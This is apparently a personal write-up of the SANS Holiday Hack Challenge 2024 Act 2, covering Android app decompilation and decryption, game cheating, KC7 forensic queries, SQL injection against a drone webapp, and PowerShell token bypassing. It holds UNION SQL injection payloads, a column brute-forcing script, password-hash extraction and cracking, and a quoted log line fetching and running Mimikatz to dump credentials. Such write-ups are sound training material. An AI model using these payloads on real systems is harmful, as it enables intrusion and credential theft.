


# ACI II (Act 2)

## Challenge 1: Mobile Analysis

We're given the dev and prod version of an Android application and asked to find the name that is being excluded from the list in each. I used [jadx](https://github.com/skylot/jadx) for decompilation instead of digging into smali myself, because the tooling is much better than it was in 2012.

### Silver

For Silver, I looked at the `.apk` application since it would require less work to get into. Digging into the `com.northpole.santaswip.DatabaseHelper` class and found the following:

```java
public final void getNormalList() {
...omitted for brevity...
        Cursor cursor = sQLiteDatabase.rawQuery("SELECT Item FROM NormalList WHERE Item NOT LIKE '%Ellie%'", null);
```

The `NOT LIKE` clause explicitly excludes one kid. Answer: `Ellie`

### Gold

For Gold, we were asked to take apart the production version of the application in a `.aab` file, an [Android App Bundle](https://developer.android.com/guide/app-bundle/faq). These are not that different to deal with from a technical standpoint, but I did need to [unbundle](https://github.com/HackJJ/apk-sherlock/blob/main/aab2apk.md) the code of the application (the `.apk`) from it. Using `bundletool`:

```bash
user@computer:$ java -jar bundletool-all-1.17.2.jar build-apks --bundle=SantaSwipeSecure.aab --output=./SantaSwipeSecure.apks --mode=universal
user@computer:$ mv SantaSwipeSecure.apks SantaSwipeSecure.zip
user@computer:$ unzip SantaSwipeSecure.zip -d secextract/
Archive:  SantaSwipeSecure.zip
 extracting: secextract/toc.pb
 extracting: secextract/universal.apk
```

I then loaded `universal.apk` into `jadx` for decompilation and analysis, like normal. I examined the same `DatabaseHelper` class and found:

```java
public void onCreate(SQLiteDatabase db) {
...omitted for brevity...      db.execSQL(decryptData("IVrt+9Zct4oUePZeQqFwyhBix8cSCIxtsa+lJZkMNpNFBgoHeJlwp73l2oyEh1Y6AfqnfH7gcU9Yfov6u70cUA2/OwcxVt7Ubdn0UD2kImNsclEQ9M8PpnevBX3mXlW2QnH8+Q+SC7JaMUc9CIvxB2HYQG2JujQf6skpVaPAKGxfLqDj+2UyTAVLoeUlQjc18swZVtTQO7Zwe6sTCYlrw7GpFXCAuI6Ex29gfeVIeB7pK7M4kZGy3OIaFxfTdevCoTMwkoPvJuRupA6ybp36vmLLMXaAWsrDHRUbKfE6UKvGoC9d5vqmKeIO9elASuagxjBJ"));
    insertInitialData(db);
}
```

This showed that the production version of the application was using encrypted query strings (and some other data) to obfuscate some of the information. Elsewhere in the same class, I found the initialization of the encryption parameters, which revealed the String resources they were being loaded from:

```java
    public DatabaseHelper(Context context) {
          super(context, DATABASE_NAME, (SQLiteDatabase.CursorFactory) null, 1);
          Intrinsics.checkNotNullParameter(context, "context");
          String string = context.getString(R.string.ek);
          Intrinsics.checkNotNullExpressionValue(string, "getString(...)");
          String obj = StringsKt.trim((CharSequence) string).toString();
          String string2 = context.getString(R.string.iv);
          Intrinsics.checkNotNullExpressionValue(string2, "getString(...)");
          String obj2 = StringsKt.trim((CharSequence) string2).toString();
          byte[] decode = Base64.decode(obj, 0);
          Intrinsics.checkNotNullExpressionValue(decode, "decode(...)");
          this.encryptionKey = decode;
          byte[] decode2 = Base64.decode(obj2, 0);
          Intrinsics.checkNotNullExpressionValue(decode2, "decode(...)");
          this.iv = decode2;
          this.secretKeySpec = new SecretKeySpec(decode, "AES");
      }
```

I looked in the String resources `xml` files, and found:

```xml
<string name="ek">rmDJ1wJ7ZtKy3lkLs6X9bZ2Jvpt6jL6YWiDsXtgjkXw=</string>
...omitted for brevity...
<string name="iv">Q2hlY2tNYXRlcml4</string>
```

From there, I needed to determine the encryption algorithm, so I found one of the functions:

```java
private final String decryptData(String encryptedData) {
    try {
        Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
        cipher.init(2, this.secretKeySpec, new GCMParameterSpec(128, this.iv));
        byte[] doFinal = cipher.doFinal(Base64.decode(encryptedData, 0));
        Intrinsics.checkNotNull(doFinal);
        return new String(doFinal, Charsets.UTF_8);
    } catch (Exception e) {
        Log.e("DatabaseHelper", "Decryption failed: " + e.getMessage());
        return null;
    }
}
```

And found it was `AES-GCM`. I threw together a quick Python script:

```python
from Crypto.Cipher import AES
import binascii
from base64 import b64decode

ORIGINAL_KEY = "rmDJ1wJ7ZtKy3lkLs6X9bZ2Jvpt6jL6YWiDsXtgjkXw="
ORIGINAL_IV = "Q2hlY2tNYXRlcml4"

SAMPLE = input()

key = b64decode( ORIGINAL_KEY )
iv =  b64decode( ORIGINAL_IV )
data = b64decode( SAMPLE )
cipher = AES.new(key, AES.MODE_GCM, nonce=iv)
print(cipher.decrypt(data))
```

And used that to decrypt that encrypted SQL query:

```bash
justin@pagtop:/mnt/c/Users/tdaddy/Documents/Writeups/SANS_HHC2024/act2$ python3 decrypt.py
b"CREATE TRIGGER DeleteIfInsertedSpecificValue\n    AFTER INSERT ON NormalList\n    FOR EACH ROW\n    BEGIN\n        DELETE FROM NormalList WHERE Item = 'KGfb0vd4u/4EWMN0bp035hRjjpMiL4NQurjgHIQHNaRaDnIYbKQ9JusGaa1aAkGEVV8=';\n    END;\xab[t\x9eD\xc5G\x19\x9c\xdd\xdel\xdc\xfb@\x03"
```

That script _itself_ contained another encrypted string, so I decrypted that too:

```bash
justin@pagtop:/mnt/c/Users/tdaddy/Documents/Writeups/SANS_HHC2024/act2$ python3 decrypt.py
b'Joshua, Birmingham, United Kingdom\x1bvrT.\xd77\x8f\xc6D\xd4\xa57\x9et\xe4'
```

Which revealed that Joshua from Birminham wasn't getting presents this year. Sorry little guy. Answer: `Joshua`

## Challenge 2: Snowball Showdown

Snowball Showdown is a classic browser game to fight the elves. We're told there's a giant snowball available for us to use.

### Silver

For Silver, I assumed we just needed to complete the game and went about finding how we could cheat. The first thing in `phaser-snowball-game.s` that aught my eye was the `create()` function which contained handy parameters such as:

```javascript
this.snowBallBlastRadius = 24;
this.onlyMoveHorizontally = true;
```

So I set the blast radius really high and blew all kinds of things up, but wasn't subtle enough and got called a cheater. So I looked for some more parameters I could muck with and came across `throwSpeed` and `throwRateofFire`:

```javascript
this.throwSpeed = 4000;
this.throwRateOfFire = 10;
```

Now I was essentially a snowball machine gun and completed the game for Silver.

### Gold

I actually got Gold first because I wanted to use the giant snowball. I looked for the code that fired a projectile and found:

```javascript
let snowball = {
    "type": "snowballp",
    "x": snowBallPosition.x,
    "y": snowBallPosition.y,
    "owner": this.player1.playerId,
    "isWomb": this.player1.isWomb,
    "blastRadius": this.snowBallBlastRadius,
    "velocityX": velocityX,
    "velocityY": velocityY
};
this.ws.sendMessage(snowball);
}
```

I assumed that changing the type was possible. Looking through other resources loaded from the game, I found that therewas an image of an Elf the Dwarf riding a big bomb that says MOASB on it:


I guessed that the projectile type for this bomb would be `moasb` so I changed it in the javascript:

```javascript
"type": "moasb",
```

Once the round started, a plane arrived to drop a gigantic "snowball" on the enemy:


Once Wombley was neutralized, I received Gold.
## Challenge 3: Microsoft KC7

This challenge involved conducting a forensic investigation within the Microsoft KC7 educational environment. I'm not breaking this one down into Silver or Gold because going through the modules was enough to get Gold. Some of these were straightforward and some were not - so I'm also just going to leave my raw notes for folks to peruse if they would like to.

Everything is a tutorial up until Section 3 Question 3

```sql
AuthenticationEvents
| where result == "Successful Login" and src_ip == "59.171.58.12"
| distinct username
| count
```

Q4

```sql
AuthenticationEvents
| where result == "Successful Login" and src_ip == "59.171.58.12"
| distinct description
```

`User successfully logged onto Elf-Lap-A-Ribbonson via RDP.

Q5

```sql
Employees
| where name has "Alabaster"
| project name, email_addr, hostname, username
```

```json
"name": Alabaster Snowball,
"email_addr": alabaster_snowball@santaworkshopgeeseislands.org,
"hostname": Elf-Lap-A-Snowball,
"username": alsnowball
```

```sql
ProcessEvents
| where hostname == "Elf-Lap-A-Snowball"
| sort by timestamp desc
```

```json
"timestamp": 2024-12-16T15:51:52Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip,
"process_name": cmd.exe,
"process_hash": 1330d7cd9a939b3a0f0f97201cce3efd215a68e2297ec991bd141adf063b55c0,
"hostname": Elf-Lap-A-Snowball,
"username": alsnowball
```

Q6

```json
"timestamp": 2024-12-17T10:40:12Z,
"parent_process_name": cmd.exe,
"parent_process_hash": c3c259ae4640cded730676a6956bafea4f9bf20ed460a61c62c7c516090551b6,
"process_commandline": C:\Windows\Users\alsnowball\EncryptEverything.exe,
"process_name": EncryptEverything.exe,
"process_hash": 67efd6d363823f26f18138ccb9434a0aadfcb704c68d195b0a1e6bc938c2d9f0,
"hostname": Elf-Lap-A-Snowball,
"username": alsnowball
```

base64("EncryptEverything.exe") == `RW5jcnlwdEV2ZXJ5dGhpbmcuZXhl`

S4 Q2

```sql
let nb_addr =
Employees
| where name has "Boetie"
| project email_addr;
Email
| where recipient in (nb_addr) and subject contains "breach"
| sort by timestamp asc
```

`2024-12-12T14:48:55Z`

Q3

```sql
OutboundNetworkEvents
| where url == "https://holidaybargainhunt.io/published/files/files/echo.exe"
```

`2024-12-12T15:13:55Z`

Q4

```sql
PassiveDns
| where domain contains "holidaybargainhunt.io"
```

`182.56.23.122`

Q5

```sql
let mean_ip =
PassiveDns
| where domain contains "holidaybargainhunt.io"
| distinct ip;
AuthenticationEvents
| where src_ip in (mean_ip)
| distinct hostname;
```

`WebApp-ElvesWorkshop`


Q6

```sql
let mean_ip =
PassiveDns
| where domain contains "holidaybargainhunt.io"
| distinct ip;
let comphost =
AuthenticationEvents
| where src_ip in (mean_ip)
| distinct hostname;
ProcessEvents
| where hostname in (comphost);
```


```json
"timestamp": 2024-12-10T00:00:00Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords",
"process_name": cmd.exe,
"process_hash": acb984e77fe41893cc10827bb8c5f4d97632b9fc76b33748e947183caa48919a,
"hostname": WebApp-ElvesWorkshop,
"username": seadmin
```

Q7

```sql
let nb_host =
Employees
| where name has "Boetie"
| project hostname;
ProcessEvents
| where hostname in (nb_host) and process_commandline contains "echo.exe"
| sort by timestamp desc
```

`2024-12-12T15:14:38Z`

Q8

```sql
OutboundNetworkEvents
| where url contains "holidaycandy.hta"
```

`http://compromisedchristmastoys.com/holidaycandy.hta`

`compromisedchristmastoys.com`

Q9

```sql
let nb_host =
Employees
| where name has "Boetie"
| project hostname;
ProcessEvents
| where hostname in (nb_host)
| sort by timestamp desc
```

```json
"timestamp": 2024-12-24T18:40:36Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": New-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force,
"process_name": powershell.exe,
"process_hash": b2bdf6438ab4329448e06b53f5acbbaa28f19c5d1f7d4107a1292c0366eed643,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```

`sqlwriter.exe`

Q10

`"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force,`

`frosty`

b64("frosty") = `ZnJvc3R5`

## Challenge 4: Drone Path

For this challenge, we needed to analyze various kinds of drone flight.

### Silver

Initially, I was presented with an Elf Drone Workshop webapp. From the get go, you are not logged in and have no information to start with. The only real option on the webapp is the File Share page, which gives you the `fritjolf-path.kml` file. Opening it in Google Earth draws a useful picture:


User: `fritjolf`
Password: `GUMDROP1`

Once logged in, you are presented with a `Drone Workshop` page:


Naturally, I started trying to search. Putting words yielded an empty response, however testing for SQL Injection and adding a `'` gaves a 500 error, indicating SQLi was present. Expanding upon this, I entered `' or '1'='1` which returned the names of all of the drones and a description of the ELF-HAWK drone. Interesting excerpts:

```json
- Name: ELF-HAWK, Quantity: 40, Weapons: Snowball-launcher
		- ["These drones will work great to find Alabasters snowball warehouses.\n I have hid the activation code in the dataset <a href='../files/secret/ELF-HAWK-dump.csv'>ELF-HAWK-dump.csv</a>. We need to keep it safe, for now it's under /files/secret.","
		- We need to make sure we have enough of these drones ready for the upcoming operation. \n Well done on hiding the activation code in the dataset.\n 
		- If anyone finds it, it will take them a LONG time or forever to carve the data out, preferably the LATTER."],"drone_name":"ELF-HAWK"}
- Name: Pigeon-Lookalike-v4, Quantity: 20, Weapons: Surveillance Camera
		- "I heard a rumor that there is something fishing with some of the files. \nThere was some talk about only TRUE carvers would find secrets and that FALSE ones would never find it."],"drone_name":"Pigeon-Lookalike-v4"}
```

ELF-HAWK dump contained a CSV, but let's set that aside for later.

I explored the application more and landed on the `Profile` page:


#### [/files/secret/Preparations-drone-name.csv](https://hhc24-dronepath.holidayhackchallenge.com/files/secret/Preparations-drone-name.csv)

> Note to self, remember drone name, it is the same location as secret snowball warehouses 

I converted this CSV to a KML, as before, and opened it in Google Maps:


I then zoomed in to each point on the map, revealing geographic features that looked like letters. In the order of the original CSV:

| GPS coord              | Letter | Image                                                                    |
| ---------------------- | ------ | ------------------------------------------------------------------------ |
| 37°25'22"S 144°51'24"E | E      |                          |
| 38°03'24"S 142°26'08"E | L      |                          |
| 37°48'07"S 143°55'58"E | F      |                          |
| 38°04'05"S 142°16'31"E | -      |                         |
| 34°31'23"S 141°45'22"E | H      |                          |
| 36°44'36"S 145°30'49"E | A      |                          |
| 37°53'49"S 144°44'45"E | W      |                        |
| 37°00'25"S 145°53'47"E | K      |  |

I think this tells me to use ELF-HAWK as the drone we want, but the SQLi already gave us that info 🤷‍♀️

#### /files/secret/ELF-HAWK-dump.csv

Horribly messy file that looks like the Death Star when imported into Google Earth. I really hate talking about it, tbh.

### Silver

I spent multiple days fighting with `ELF-HAWK-dump.csv`. It was diabolical. This jerk refused to give anything, meanwhile other people talked about how easy it was. The elves told me to use Python and Google maps; I did. I used [pandas](https://pandas.pydata.org/) to slice these damn data points every way I could think of - even numbers, odd numbers, boolean fields that `XOR` to true or false or were divisible by three. I _became one_ with this data set. Every time I would see a letter or two, but get nowhere. 

Eventually I realized the letters were *overlapping*, because the drone flew around the Earth multiple times, which is why every slicing method revealed a different letter. It was all coincidence. So I set out to make my own planet that was big enough to handle this.

In college, I had a friend who did civil planning work and he lived in ArcGIS making and consuming maps - so I looked for an open source GIS software and settled on [qGIS](https://www.qgis.org/). qGIS also had a KML plugin, so I was essentially ready to go.

I imported the KML file and set out to work:


And no work was needed. It _was_ easy. Damn.

Answer: DroneDataAnalystExpertMedal

### Gold

After getting Silver, I knew the data inside and out. I knew there were 58 boolean (True/False) fields and I knew if you treated them as bits, at least the first row was mapping to ASCII values with two bits leftover. So I stripped out all the extra columns in Google Sheets, replaced `TRUE` with `1` and `FALSE` with `0`, plunked it into `vim` and removed all the columns and newlines, then dumped it into CyberChef to translate to ASCII:


And a drone appeared. Near the bottom, bubble text:


Answer: `EXPERTTURKEYCARVERMEDAL`

Don't hack without a team, kids.

### Extra: SQLi

Playing more with the SQLi I used to find the extra drone names, I realized it was playing nice with `UNION` injections:

```http
Zapper' UNION SELECT 1,1,1; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%201%2c1%2c1%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":1,"quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"}]
```

The row of `1` values showed I was successfully injecting data into the query. After that, I used a payload of `Zapper' UNION SELECT 1,1,1 FROM <table>; /*` to poke around until I found the `users` table. Fun tables like `sqlite_schema` were not available, even though `sqlite_version()` revealed it was, indeed, SQLite.

Looking at the source of the `profile` page, it implied that there was at least a `username` field and a `bio` field, which I used to extract a list of all the users:

```http
Zapper' UNION SELECT username, bio,1 from users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20username%2cbio%2c1%20from%20users%3b%20%2f* HTTP/2
```

Result:

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"brynne","quantity":"Brynne is the workshops master of drone aesthetics, bedazzling every flying machine with shimmering gemstones and enchanted paints.\nShe believes every drone deserves a touch of flair\u2014because who says utility ca not be stylish?","weapons":1},{"name":"filo","quantity":"Filo insists the best drones are the ones that can sneak up on you, which is why he specializes in crafting silent, stealthy models. \nHe is always got a mischievous grin, especially when his latest creation flies circles around you before you notice!","weapons":1},{"name":"fritjolf","quantity":"Secret project is underway, we need to produce as many as possible for Wombley.","weapons":1},{"name":"lira","quantity":"Liras light touch and nimble fingers can assemble a drone in the blink of an eye, sometimes before you even realize she has started.\nShe swears each one has a bit of her own magic, which might explain why they always seem to hum a little tune.","weapons":1},{"name":"pip","quantity":"Pip is a master of drone delivery, programming routes with such precision that packages arrive exactly on the second they are expected. \nHe has a large collection of flags, impressive!","weapons":1},{"name":"sprigg","quantity":"Sprigg loves nothing more than the hum of a well-oiled drone and the smell of enchanted gears.\nWhen he is not tinkering, he is dreaming up new ways to make drones faster, shinier, and maybe even capable of brewing tea!","weapons":1},{"name":"tylwen","quantity":"Tylwen is the drone workshops resident perfectionist, spending hours polishing every cog and checking each spell-infused circuit. \nShe insists that drones can be practical and pristine, and she wo not let one leave her station without a flawless gleam.","weapons":1}]
```

From here, I struggled to find tables or columns I wanted to investigate, as the application would throw a `500 Server Error` any time all three columns were filled. I'm not sure why, but scripting this out shuffled the parameters in a way that worked.

`sqlite_schema` and its various analogues weren't available, which was causing `sqlmap` to choke, so I decided to brute force things using the [`sqlmap` wordlists](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-columns.txt). A quick script to brute force columns yielded predictable results:

```python
import requests

# URL and parameters
url = "https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones"
cookies = {
    "_ga_F6ZZNPR5E5": "GS1.1.1731440131.11.1.1731442954.0.0.0",
    "_ga": "GA1.1.1077666454.1731349865",
    "GCLB": "fb0453e3c1f452e6",
    "session": "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZnJpdGpvbGYifQ.Zz9yNQ.9mzdlLYAWFRe9P9f__nfp9Wfpcg"
}

with open('./common-columns.txt', 'r') as f:
    for table in f:
        params = {
            "drone": "Zapper' UNION SELECT {},1,1 from users; /*".format(table.strip())
        }

        # Headers and cookies
        headers = {
            "Host": "hhc24-dronepath.holidayhackchallenge.com",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0{}".format(table.strip()),
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "Referer": "https://hhc24-dronepath.holidayhackchallenge.com/workshop",
            "Sec-Fetch-Dest": "empty",
            "Sec-Fetch-Mode": "cors",
            "Sec-Fetch-Site": "same-origin",
            "Priority": "u=0",
            "Te": "trailers"
        }

        # Sending the GET request
        response = requests.get(url, headers=headers, cookies=cookies, params=params)

        # Output the response
        print("col: {}\t\t\t".format(table.strip()),end='')
        print("Status Code:", response.status_code)
```

Results (`grep 200 < results.txt`):
```
col: username                   Status Code: 200
col: rowid                      Status Code: 200
col: password                   Status Code: 200
col: password                   Status Code: 200
col: username                   Status Code: 200
col: oid                        Status Code: 200
col: avatar                     Status Code: 200
col: bio                        Status Code: 200
col: password                   Status Code: 200
```

These weren't earth-shattering, but made me realize that using the `quantity` column seemed to be the problem. From here, I went on to extract the `password` values:

```http
Zapper' UNION SELECT password,1,1 from users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20password%2c1%2c1%20FROM%20users%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"2bb7ab7713cc012f02eb03c95f6e4443","quantity":1,"weapons":1},{"name":"2fd03c8ea542a7fd85ca4ebbcc13d5ca","quantity":1,"weapons":1},{"name":"3c3a4f722ec77c1712941003443a4d83","quantity":1,"weapons":1},{"name":"4f7f1b7c49fa2b0cc22e2d2599f1f2e5","quantity":1,"weapons":1},{"name":"9eb6c13b1b18bc785ffb84d977bf5499","quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"b9af6f935826ae1a89ecba72476fbcba","quantity":1,"weapons":1},{"name":"e54efff9e6258bef3eb35f093e3bae00","quantity":1,"weapons":1}]
```

And the `avatar` values:

```http
Zapper' UNION SELECT avatar FROM users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20avatar%2c1%2c1%20FROM%20users%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"2cf1d29136d246eeb42149e65358abb3.png","quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"elf13.png","quantity":1,"weapons":1},{"name":"elf17.png","quantity":1,"weapons":1},{"name":"elf23.png","quantity":1,"weapons":1},{"name":"elf3.png","quantity":1,"weapons":1},{"name":"elf5.png","quantity":1,"weapons":1},{"name":"elf6.png","quantity":1,"weapons":1}]
```

Grabbing the `avatar` image with a hash-looking name yielded:


A troll!

Finishing up, I pulled all the various hashes I got out of the database to crack:

```
2cf1d29136d246eeb42149e65358abb3
2bb7ab7713cc012f02eb03c95f6e4443
2fd03c8ea542a7fd85ca4ebbcc13d5ca
3c3a4f722ec77c1712941003443a4d83
4f7f1b7c49fa2b0cc22e2d2599f1f2e5
9eb6c13b1b18bc785ffb84d977bf5499
b9af6f935826ae1a89ecba72476fbcba
e54efff9e6258bef3eb35f093e3bae00
```

As a first pass, I ran them through [Crackstation](https://crackstation.net):

| Hash                             | Algo    | Result            |
| -------------------------------- | ------- | ----------------- |
| 2cf1d29136d246eeb42149e65358abb3 | Unknown | Not found.        |
| 2bb7ab7713cc012f02eb03c95f6e4443 | md5     | GUMDROP1          |
| 2fd03c8ea542a7fd85ca4ebbcc13d5ca | Unknown | Not found.        |
| 3c3a4f722ec77c1712941003443a4d83 | Unknown | Not found.        |
| 4f7f1b7c49fa2b0cc22e2d2599f1f2e5 | Unknown | Not found.        |
| 9eb6c13b1b18bc785ffb84d977bf5499 | Unknown | Not found.        |
| b9af6f935826ae1a89ecba72476fbcba | Unknown | Not found.        |
| e54efff9e6258bef3eb35f093e3bae00 | md5     | RumbleInTheJungle |
Using the passwords I got, I went after pip, the elf who had lots of flags:


Impressive!
## Challenge 5: Powershell

Powershell was another somewhat linear challenge, so I'll mostly leave raw notes with some interjection during Gold.
### Silver

```powershell
Get-Content ./welcome.txt
```

```powershell
Get-Content ./welcome.txt | Measure-Object -word
```

```powershell
netstat -antp
```

```powershell
Invoke-WebRequest -Uri 'http://localhost:1225'
```

```powershell
$user = 'admin'
$pass = 'admin'

$pair = "$($user):$($pass)"

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($pair))

$basicAuthValue = "Basic $encodedCreds"

$Headers = @{
    Authorization = $basicAuthValue
}

Invoke-WebRequest -Uri 'http://localhost:1225' -Headers $Headers
```

```powershell
$user = 'admin'
$pass = 'admin'

$pair = "$($user):$($pass)"

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($pair))

$basicAuthValue = "Basic $encodedCreds"

$Headers = @{
    Authorization = $basicAuthValue
}

$response = Invoke-WebRequest -Uri 'http://localhost:1225' -Headers $Headers

foreach ($link in $response.Links)
{
  $url = $link.href

  $count = Invoke-WebRequest -Uri $url -Headers $Headers | Measure-Object -word
  if( 138 -eq $count.words ) {$url}
}

>http://localhost:1225/endpoints/13
```

```powershell
PS /home/user> $response = Invoke-WebRequest -Uri 'http://localhost:1225/endpoints/13' -Headers $Headers
PS /home/user> $response.Content     
<html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>    A season of love, of care.<br>    The world is bright, full of light,<br>    As we celebrate this special night.<br>    The tree is trimmed, the stockings hung,<br>    Carols are sung, bells are rung.<br>    Families gather, friends unite,<br>    In the glow of the fire’s light.<br>    The air is filled with joy and peace,<br>    As worries and cares find release.<br>    Yuletide cheer, a gift so dear,<br>    Brings warmth and love to all near.<br>    May we carry it in our hearts,<br>    As the season ends, as it starts.<br>    Yuletide cheer, a time to share,<br>    The love, the joy, the care.<br>    May it guide us through the year,<br>    In every laugh, in every tear.<br>    Yuletide cheer, a beacon bright,<br>    Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>
```

```powershell
PS /home/user> (Invoke-WebRequest -Uri http://127.0.0.1:1225/token_overview.csv -Headers $Headers).content

5be8911ced448dbb6f0bd5a24cc36935,REDACTED
1acbfea6a2dad66eb074b17459f8c5b6,REDACTED
0f262d0003bd696550744fd43cd5b520,REDACTED
8cac896f624576d825564bb30c7250eb,REDACTED
8ef6d2e12a58d7ec521a56f25e624b80,REDACTED
b4959370a4c484c10a1ecc53b1b56a7d,REDACTED
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
# [*] SYSTEMLOG
# [*] Defence mechanisms activated, REDACTING endpoints, starting with sensitive endpoints
# [-] ERROR, memory corruption, not all endpoints have been REDACTED
# [*] Verification endpoint still active
# [*] http://127.0.0.1:1225/tokens/<sha256sum>
# [*] Contact system administrator to unlock panic mode
# [*] Site functionality at minimum to keep weapons active
```

```powershell
PS /home/user> (Invoke-WebRequest -Uri http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Headers $Headers -WebSession $session).content
<h1>[!] ERROR: Missing Cookie 'token'</h1> 
```

```powershell
# Create a new WebRequestSession
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Create a new cookie
$cookie = New-Object System.Net.Cookie
$cookie.Name = "token"
$cookie.Value = "5f8dd236f862f4507835b0e418907ffc"
$cookie.Domain = "127.0.0.1"

$session.Cookies.Add($cookie)

PS /home/user> (Invoke-WebRequest -Uri http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Headers $Headers -WebSession $session).content
<h1>Cookie 'mfa_code', use it at <a href='1732120662.4689295'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```

```powershell
# Create a new WebRequestSession
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Create a new cookie
$cookie = New-Object System.Net.Cookie
$cookie.Name = "token"
$cookie.Value = "5f8dd236f862f4507835b0e418907ffc"
$cookie.Domain = "127.0.0.1"

$session.Cookies.Add($cookie)

$request = Invoke-WebRequest -Uri http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Headers $Headers -WebSession $session

$cookie.Name = "mfa_token"
$cookie.Value = $request.Links[0].href
$session.Cookies.Add($cookie)

$response = Invoke-WebRequest -Uri http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Headers $Headers -WebSession $session
$response.Content

<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p>
```

Answer: `SnowLeopard2ReadyForAction`

### Gold

After completing the challenge, the elves tell you to go after more endpoints. To do so, we need to create new hashes for all of the endpoints. I dumped the hashes to a text file and got them onto a real machine (where I can scroll) using the methods in [TIPS](../TIPS.md).

The header of the file read `file_MD5hash,Sha256(file_MD5hash)`, which implied the `REDACTED` text was a Sha256 of the column on the left.

However, when doing so the hashes didn't compute correctly. I mucked about with it and eventually added a newline to the text, knowing that sometimes people screw up and leave newlines in, for example when using `echo text | md5sum` instead of `echo -n text | md5sum`, which revealed working hashes. I wrote a quick script to dump these out:

```python
#! /usr/bin/env python

import csv
from hashlib import sha256

with open('token_overview.csv', 'r') as ftoken:
    tokenreader = csv.reader(ftoken)
    for row in tokenreader:
        hash = sha256("{}\n".format(row[0]).encode()).hexdigest()
        print("{},{}".format(row[0],hash.upper()))
```

Result:

```csv
file_MD5hash,Sha256(file_MD5hash)
04886164e5140175bafe599b7f1cacc8,DFD05F3B46D21BC8556CDBF544325A945ED0304EC0BB7DBFD68ED5931E7FF6EE
664f52463ef97bcd1729d6de1028e41e,1F3C45D7E7B1F7621F67136C538C6933791D3392648C7B0F8B17FB1A6343EBD5
